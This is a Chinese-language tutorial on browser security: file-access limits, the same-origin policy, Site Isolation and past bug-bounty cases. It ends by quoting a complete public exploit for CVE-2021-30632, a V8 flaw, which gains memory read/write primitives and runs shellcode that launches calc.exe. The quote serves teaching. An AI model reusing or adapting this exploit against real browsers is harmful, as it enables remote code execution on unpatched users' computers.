

# 瀏覽器的安全模型

在談網頁前端的資安議題時，我們必須先對網頁前端的核心有個最基礎的認識。

網頁前端最大的不同，就在於程式碼是跑在瀏覽器上面。是瀏覽器負責 render 你的 HTML，是瀏覽器負責解析你的 CSS 並且繪製出來，也是瀏覽器負責執行頁面上的 JavaScript 程式碼。

以網頁前端來說，它的執行環境就是瀏覽器。

以下圖為例，最外層的一圈黑色的是作業系統，而兩個綠色的應用程式是跑在作業系統上面，右邊的代表的是瀏覽器，而網頁前端又是跑在瀏覽器上面，越內層的限制理所當然也越多：



必須記住這點，才能知道為什麼有些事情網頁前端做不到，不是我不想做，而是瀏覽器不讓我做。舉例來說，後端伺服器可以輕鬆執行檔案讀寫的操作，但是網頁前端卻不一定做得到，這是為什麼？因為瀏覽器不讓我們做。

為什麼我看別人寫後端都可以＿＿（請自行填入），但是我在前端的時候好像沒有查到做法？這也很有可能是因為瀏覽器不讓你這樣做。

用一句話總結就是：

> 瀏覽器不給你的，你拿不到，拿不到就是拿不到

那到底瀏覽器做了哪些安全限制？它到底限制了哪些東西？以下舉幾個例子。

## 禁止主動讀寫本機的檔案

以後端來說，它的程式碼是直接跑在作業系統上面，等於說就是一個一般的應用程式，如果沒有特別限制權限的話，基本上想幹嘛就幹嘛，整台機器都是它的遊樂場。

但前端的限制可就多了，例如說不能「主動」去讀寫電腦裡面的檔案。先來講怎樣是可以的，可以透過 `<input type=file>` 讓使用者選擇檔案，選完以後用 `FileReader` 把檔案內容讀出來，像是這樣：

``` html
<input type="file" onchange="show(this)">

<script>
function show(input) {
  const reader = new FileReader();
  reader.onload = (event) => {
    alert(event.target.result);
  };
  reader.readAsText(input.files[0]);
  
}
</script>
```

但是沒辦法直接用 `fetch('file:///data/index.html')` 之類的操作去讀取檔案，如果這樣做了，只會在 console 裡面看見錯誤：

> Not allowed to load local resource: file:///data/index.html

就算用 `window.open('file:///data/index.html')` 也一樣，都會看到同樣的錯誤。

瀏覽器之所以會有限制，絕對都是有原因的。如果可以讓前端網頁直接主動讀取檔案，會發生什麼事？我就可以直接讀取你的 `/etc/passwd`，讀取你的 SSH key，讀你的設定檔跟各種含有敏感資訊的檔案，甚至想辦法在你電腦裡面找到加密貨幣錢包的備份助記詞，這問題可就大了，跟被木馬軟體入侵差不多。

所以，禁止 JavaScript 主動讀取檔案是非常合理的事情，否則只要開個網頁，所有的檔案內容就被看光光了，會有極大的資安問題。

而這種事情其實以前曾經發生過，讓我們來看個案例。

在 2021 年時，Renwa 向 Opera 回報的一個漏洞：[Bug Bounty Guest Post: Local File Read via Stored XSS in The Opera Browser](https://blogs.opera.com/security/2021/09/bug-bounty-guest-post-local-file-read-via-stored-xss-in-the-opera-browser/)，就正好是利用瀏覽器的漏洞去讀取檔案。

Opera 是以 Chromium 為基礎打造的瀏覽器，而其中有一個「Opera Pinboards」的功能，可以建立一些筆記然後分享給其他使用者，而筆記頁面的網址是：`opera:pinboards`，是屬於特殊的協定，通常會給予一些特別的權限。

在建立筆記的時候，可以包含一個連結，例如說：`https://blog.huli.tw`，而 Renwa 發現了除了可以使用正常的連結以外，也可以使用 `javascript:alert(1)` 這種類型的連結去執行程式碼，因此就可以得到一個 `opera:pinboards` 底下的 XSS 漏洞！

前面有提過在 `opera:` 底下會有一些特殊的權限，例如說可以開啟 `file://` 的網頁，還可以幫網頁截圖並得到截圖的結果，因此就可以利用剛剛講的 XSS 去開啟本機的檔案並且截圖，傳到攻擊者的伺服器，達成偷取檔案的目的。

而這個 bug 在回報後的一天之內就被修掉了，回報者也得到獎金 4000 美金。

## 禁止呼叫系統 API

一般的應用程式可以做很多事情，例如說更改系統設定或是網路設定等等，可以透過系統所提供的 API 進行很多操作，但是這些 JavaScript 都做不到。

或是講得更精確一點，其實不是 JavaScript 本身做不到，它只是個程式語言而已，而是「瀏覽器沒有提供給網頁前端相對應的 API，所以做不到」。

當我們在網頁前端執行 JavaScript 時，我們只能使用瀏覽器提供給我們的東西，例如說我們可以用 `fetch()` 去發出一個 request，可以用 `setTimeout` 設定一個計時器等等，這些都是瀏覽器所提供的介面，讓我們可以去使用。

如果想要使用系統的 API，除非瀏覽器也有提供相對應的介面，否則網頁上的 JavaScript 是無法使用那些功能的。

舉例來說，瀏覽器有提供與藍芽設備溝通的 API：Web Bluetooth API，因此在網頁上的 JavaScript 其實可以做出跟藍芽有關的應用；而另一個 MediaDevices API 則是讓 JavaScript 可以取得像是麥克風與攝影機等等的資料，所以也可以做出相關應用。

而瀏覽器在提供這些 API 的時候，同時也會實作權限管理的機制，通常會跳出通知要求使用者主動同意並允許該權限，才會讓網頁能夠拿得到東西。

## 禁止存取其他網頁的內容

這可以算是瀏覽器最重要的一個安全假設了，一個網頁永遠不該有權限存取到其他網頁的內容，這點應該也很好理解，如果違反這點的話，就可以直接從 `blog.huli.tw` 去讀取在 `mail.google.com` 的信件了，這顯然不安全嘛。

因此，每個網頁都只有針對自己的權限，可以改自己的 HTML，執行想要的 JavaScript 程式碼，但不該拿到其他網頁的資料，這就叫做同源政策（same-origin policy，有時被簡稱為 SOP）。

而且這個「資料」其實不只有「頁面上的內容」而已，甚至是連「別的頁面的網址」都拿不到。

舉例來說，假設在 `github.com` 執行了以下的程式碼：

``` js
var win = window.open('https://blog.huli.tw')
setTimeout(() => {
  console.log(win.location.href)
}, 3000)
```

會看到下圖的錯誤訊息：


上面寫著：

> Uncaught DOMException: Blocked a frame with origin "https://github.com" from accessing a cross-origin frame.

意思就是你沒辦法存取其他頁面上的東西，包括網址也不行。

雖然說這點看起來非常基本而且也很必要，但其實瀏覽器要實作出這個功能並沒有這麼容易。瀏覽器也是經歷了許多次的攻擊，加上很多防禦措施以及調整架構以後，才讓自己愈來愈安全，愈能符合這個安全的要求。

舉例來說，2018 年的 1 月，Google 的 Project Zeror 對外發表了歷史級的重大漏洞：Meltdown 與 Spectre，可以透過 CPU 的缺陷來讀到同一個 process 的資料。

而 Chrome 瀏覽器就因應了這個漏洞，將自己的架構調整得更安全，確保不同 的網頁無論是使用什麼方式載入（包含圖片以及 iframe 等等），都會使用不同的 process 去處理，這一系列的安全措施被稱為 Site Isolation，在 [Chromium 的網頁](https://www.chromium.org/Home/chromium-security/site-isolation/)上有更多詳細的解釋，之後的文章中也會再次提到。

針對「沒辦法存取其他頁面上的東西」的這點，我們來看一個繞過的範例。

在 2022 年時，joaxcar 向 Chromium 回報了一個漏洞：[Issue 1359122: Security: SOP bypass leaks navigation history of iframe from other subdomain if location changed to about:blank](https://bugs.chromium.org/p/chromium/issues/detail?id=1359122&q=subdomain%20host%20leak&can=1)，可以利用一個 iframe 的漏洞讀到 cross-origin 的網址。

假設現在網頁是 `a.example.com`，裡面有一個 iframe 的網址是 `b.example.com`，用 `frames[0].location = 'about:blank'` 將 iframe 重新導向之後，iframe 就會變得跟 `a.example.com` same-origin，此時去讀取 iframe 的歷史紀錄：`frames[0].navigation.entries()`，就可以從裡面拿到原本 `b.example.com` 的網址。

而這是不應該發生的，當 iframe 重新導向到其他網址之後，`navigation.entries()` 就應該清空才對，因此這是一個 bug。

這就是一個繞過同源政策的案例，雖然只能讀取網址，但依然是一個資安的漏洞，拿到了 2000 美金的賞金。

## 小結

這篇文章的重點就只有一個，那就是「瀏覽器不給你的，你拿不到就是拿不到」，這是網頁前端跟其他執行環境很不同的一點。反之，如果瀏覽器不給你的你卻拿到了，那就代表你找到了瀏覽器的漏洞，可以去回報拿獎金。

那最嚴重的瀏覽器漏洞是什麼？就是可以讓攻擊者突破瀏覽器的限制，去做出違反瀏覽器安全假設的事情。

比如說剛剛就介紹過的 SOP bypass，可以違反同源政策，去讀取到其他網頁的資料，雖然說剛剛介紹的只能讀取到 URL，但有些更厲害的甚至可以讀取到內容。例如說你打開 `https://blog.huli.tw`，看了我的部落格文章，結果我的網站背後偷偷執行一段 JavaScript，利用了 SOP bypass 的漏洞去讀取你在 `https://mail.google.com` 上的所有信件內容。

聽起來很恐怖對吧？但有更恐怖的。

最嚴重的一種讓攻擊者可以透過 JavaScript 去利用瀏覽器的漏洞，在電腦上面執行任意指令，這種漏洞種類叫做 RCE（Remote Code Execution），遠端程式碼執行。

一樣舉個例子，假設你點開我的部落格，看了一些文章關掉，但此時我已經可以對你的電腦下指令了，可以把你電腦裡的資料全都偷出來，或是偷偷植入惡意軟體之類的。而以往就曾經有過不少次這種案例，每隔一陣子瀏覽器就會爆出這種最嚴重的漏洞，對我們這些一般使用者而言，就只能盡快更新瀏覽器，讓自己少暴露在危險當中。

在 2021 年 9 月的時候有爆出一個編號為 CVE-2021-30632 的漏洞，就是我剛剛講的 RCE，只要用 Chrome 瀏覽器（v93 版以前）打開一個網頁，攻擊者就可以直接入侵你的電腦並執行指令。

你會不會好奇通常這種攻擊的 JavaScript 程式碼都是長什麼樣子？都是利用了哪些功能，最後居然可以透過瀏覽器執行任意程式碼？

底下是 CVE-2021-30632 的其中一個 exploit，來源為：https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html

``` html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
<script type="text/javascript">

function gc() {
  for(var i = 0;i < ((1024*1024)); i++) {
    new String();
  }
}

var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module);
var main = instance.exports.main;

function foo(y) {
  x = y;
}

function oobRead() {
  //addrOf b[0] and addrOf writeArr::elements
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;
var x = arr0;

gc();gc();
  
var arr = new Array(30); arr.fill(4); arr.a = 1;
var b = new Array(1); b.fill(1);
var writeArr = [1.1];

for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}

x[0] = 1.1;

for (let i = 0; i < 20000; i++) {
  oobRead();
}

for (let i = 0; i < 20000; i++) oobWrite(1.1);
foo(arr);

var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Int32Array(view);
var bigIntView = new BigInt64Array(view);
b[0] = instance;
var addrs = oobRead();

function ftoi32(f) {
  dblArr[0] = f;
  return [intView[0], intView[1]];
}

function i32tof(i1, i2) {
  intView[0] = i1;
  intView[1] = i2;
  return dblArr[0];
}

function itof(i) {
  bigIntView = BigInt(i);
  return dblArr[0];
}

function ftoi(f) {
  dblArr[0] = f;
  return bigIntView[0];
}


dblArr[0] = addrs[0];
dblArr[1] = addrs[1];

function addrOf(obj) {
  b[0] = obj;
  let addrs = oobRead();
  dblArr[0] = addrs[0];
  return intView[1]; 
}

function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));
  return writeArr[0];
}

function arbRead1(addr) {
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, addr));
  return writeArr[0];
}

function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

function writeShellCode1(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
 
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, intArrAddr + 0x20));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

var other_method = false;
var instanceAddr = addrOf(instance);
var elementsAddr = ftoi32(addrs[1])[0];

if((elementsAddr & 0xFFFF) == 0x222D) {
  other_method = true;
  elementsAddr = ftoi32(addrs[1])[1];
}

var shellCode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
      0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
      0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
      0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
      0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
      0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
      0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
      0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
      0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
      0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
      0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
      0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
      0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
      0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
      0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
      0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
      0x65, 0x78, 0x65, 0x00];

var rwxAddr;
if(other_method == false) {
  rwxAddr = arbRead(instanceAddr + 0x60);
  writeShellCode(rwxAddr, shellCode);
}
else {
  rwxAddr = arbRead1(instanceAddr + 0x60);
  writeShellCode1(rwxAddr, shellCode);
}

main();

</script>
</body>
</html>
```

因為漏洞是出現在 V8 裡面，所以可以看到上面的程式碼做了許多「你也看不懂在幹嘛」的操作，而這些操作通常是為了要滿足一些條件，才能讓 V8 發生問題，但詳細的解釋已經脫離了我的守備範圍，有興趣的可以看 GitHub 的資安團隊寫的詳細分析：[Chrome in-the-wild bug analysis: CVE-2021-30632](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/)

話說，有些對於「JavaScript 的限制」不太清楚的工程師們，常常會想要用 JavaScript 做出一些根本做不到的事情。

在瞭解了瀏覽器的基本安全模型之後，對於這些做不到的功能，你就可以勇敢地對 PM 說出：「對，這功能網頁前端做不到，因為瀏覽器不讓我用這功能」，而不是四處尋找該怎麼呼叫 API，因為根本沒有這些 API 的存在。
